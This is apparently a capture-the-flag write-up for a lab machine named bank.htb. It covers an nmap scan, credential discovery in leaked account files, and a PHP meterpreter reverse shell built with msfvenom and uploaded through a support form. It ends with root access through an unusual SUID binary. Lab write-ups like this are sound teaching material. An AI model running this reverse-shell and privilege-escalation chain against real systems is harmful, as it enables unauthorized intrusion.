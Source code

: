 # Recon
```
$ nmap -sC -sV 10.10.10.29
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 08:38 EEST
Nmap scan report for 10.10.10.29
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.35 seconds

```
- The hostname must be guessed on this machine (bank.htb) add to hosts file
- feroxbuster with the lowercase medium wordlist, will find the balance-transfer 
- found some .acc file one of them seems small in size
- 68576f20e9732f1b2edc4df5b8533230.acc we open it using vscode and found some creds
- we also have alogin page we try the creds and we got in there are 2 pages we review the source code of each of them on the support page we found in the source code a line that says any .htb will be executed as .php
- Generate a reverse PHP shell with msfvenom -p php/meterpreter/reverse_tcp lhost=<LAB IP> lport=<PORT> -f raw > writeup.htb and upload it
using the form found in the support page
- open msfconsole set multi/handler ,set payload payload/php/meterpreter/reverse_tcp and exploit
- go to /uploads/**shell.htb**
- and we got shell
# privilage escalation
- find / -type f -user root -perm -4000 2>/dev/null
- to search for all SUID binaries owned by root on the system
- the first one seems out of ordinary /var/htb/bin/emergency
- i just passed this in the shell and got root
```
/var/htb/bin/emergency
```
